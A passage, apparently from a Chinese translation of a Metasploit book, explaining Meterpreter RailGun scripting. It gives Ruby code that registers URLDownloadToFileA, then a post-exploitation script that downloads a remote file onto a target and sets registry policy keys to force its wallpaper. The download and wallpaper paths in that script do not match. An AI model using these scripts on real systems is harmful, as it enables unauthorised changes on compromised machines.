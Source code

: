 哎呀！用户似乎去钓鱼了。RailGun 确实是一个很棒的工具，它成功地删除了用户`sss`。在继续之前，让我们先了解一下参数中的`nil`值是多少。定义用户在本地网络中的`nil`值。但是，如果系统是远程系统，我们会在参数中传递系统的 NET-BIOS 名称。

## 操作 Windows API 调用

DLL 文件负责执行大部分任务。因此，了解哪个 DLL 文件包含哪个方法是很重要的。通过从正确的 DLL 文件调用适当的方法，也会生成简单的警报框。它与 Metasploit 的库文件非常相似，其中包含各种方法。为了研究 Windows API 调用，我们在[有很好的资源 http://source.winehq.org/WineAPI/](http://source.winehq.org/WineAPI/) 和[http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516（v=vs.85）。aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516(v=vs.85).aspx)。我建议您在继续创建 RailGun 脚本之前研究各种 API 调用。

### 提示

请参阅以下路径以了解有关 RailGun 支持的 DLL 文件的更多信息：`/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`。

## 制作复杂的轨道炮脚本

更进一步，让我们更深入地研究使用 RailGun 编写用于流量计扩展的脚本。让我们首先创建一个脚本，将自定义命名的 DLL 文件添加到 Metasploit 上下文中：

```
if client.railgun.get_dll('urlmon') == nil
print_status("Adding Function")
end
client.railgun.add_dll('urlmon','C:\\WINDOWS\\system32\\urlmon.dll')
client.railgun.add_function('urlmon','URLDownloadToFileA','DWORD',[
["DWORD","pcaller","in"],
["PCHAR","szURL","in"],
["PCHAR","szFileName","in"],
["DWORD","Reserved","in"],
["DWORD","lpfnCB","in"],
])
```

将代码保存在`/scripts/meterpreter`目录下名为`urlmon.rb`的文件下。

前面的脚本为`C:\\WINDOWS\\system32\\urlmon.dll`文件添加了一个引用路径，该文件包含浏览 URL 所需的所有功能以及下载特定文件等其他功能。我们将此引用路径保存在名称`urlmon`下。接下来，我们向 DLL 文件添加一个自定义函数，使用 DLL 文件的名称作为第一个参数，将要创建的函数的名称作为第二个参数，`URLDownloadToFileA`后跟所需的参数。代码的第一行检查 DLL 函数是否已经存在于 DLL 文件中。如果该函数已经存在，脚本将跳过再次添加该函数。如果调用的应用程序不是 ActiveX 组件，`pcaller`参数设置为`NULL`；如果是，则设置为 COM 对象。`szURL`参数指定要下载的 URL。`szFileName`参数指定从 URL 下载的对象的文件名。`Reserved`始终设置为`NULL`，并且`lpfnCB`处理下载状态。但是，如果状态不是必需的，则该值应设置为`NULL`。

现在让我们创建另一个脚本，它将使用此函数。我们将创建一个攻击后脚本，该脚本将永久修复目标系统上指定的墙纸。我们将利用注册表修改壁纸的设置。让我们看看怎么做。

我们在同一目录中创建另一个脚本，并将其命名为`myscript.rb`，如下所示：

```
client.railgun.urlmon.URLDownloadToFileA(0,"h ttp://usaherald.com/wp-content/uploads/2013/05/A2.jpg","C:\\haxd.jpg",0,0)
key="HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System"
syskey=registry_createkey(key)
print_line("System Key Created")
wall=registry_setvaldata(key,'Wallpaper','C:\rock.jpg','REG_SZ')
print_line("Creating Values For Wallpaper")
wallsty=registry_setvaldata(key,'WallpaperStyle','2','REG_SZ')
print_line("Creating Wallpaper Style Profile")
```
